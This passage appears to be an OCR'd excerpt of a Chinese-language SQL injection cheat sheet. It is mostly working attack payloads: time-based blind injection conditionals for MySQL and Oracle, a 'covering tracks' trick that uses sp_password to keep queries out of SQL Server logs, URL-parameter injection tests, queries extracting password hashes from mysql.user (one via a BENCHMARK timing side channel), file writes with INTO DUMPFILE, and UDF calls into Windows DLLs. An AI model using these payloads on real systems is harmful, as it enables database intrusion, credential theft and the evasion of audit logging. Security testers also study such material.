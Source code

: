 sleep(seconds)（M）

睡眠指定的秒数。

SELECT sleep(10);
睡眠10秒。

dbms_pipe.receive_message（O）

睡眠指定的秒数。

(SELECT CASE WHEN (NVL(ASCII(SUBSTR(({INJECTION}),1,1)),0) = 100) 
THEN dbms_pipe.receive_message(('xyz'),10) ELSE dbms_pipe.receive_message(('xyz'),1) END FROM dual)

{INJECTION} = 你想实际运行的查询。

如果条件为真（true），会在10秒后才响应。如果是假（false），延迟1秒就返回。

掩盖痕迹

SQL Server -sp_password 日志绕过（S）

出于安全原因，SQL Server 不会将包含 sp_password 的查询记录到日志中。. 所以如果你在查询中加入 –sp_password 选项，你执行的查询就不会出现在数据库日志中（当然，在 Web 服务器的日志里还是会有，所以可能的话尽量使用 POST 方法）

清晰的 SQL 注入测试

这些测试完全适用于 SQL 盲注和静默攻击。

asp?id=4（SMO）
asp?id=5-1
asp?id=4 OR 1=1

asp?name=Book
asp?name=Bo’%2b’ok
asp?name=Bo’ || ’ok（OM）
asp?name=Book’ OR ‘x’=’x

MySQL 的额外说明

子查询只在 MySQL 4.1 或以上版本才生效

用户
SELECT User,Password FROM mysql.user;

SELECT 1,1 UNION SELECT IF(SUBSTRING(Password,1,1)=’2′,BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = ‘root’;

SELECT … INTO DUMPFILE
把查询写入一个新文件（不能修改已有的文件）

UDF 函数
create function LockWorkStation returns integer soname ‘user32’;
select LockWorkStation();
create function ExitProcess returns integer soname ‘kernel32’;
select exitprocess();

SELECT USER();

SELECT password,USER() FROM mysql.user;
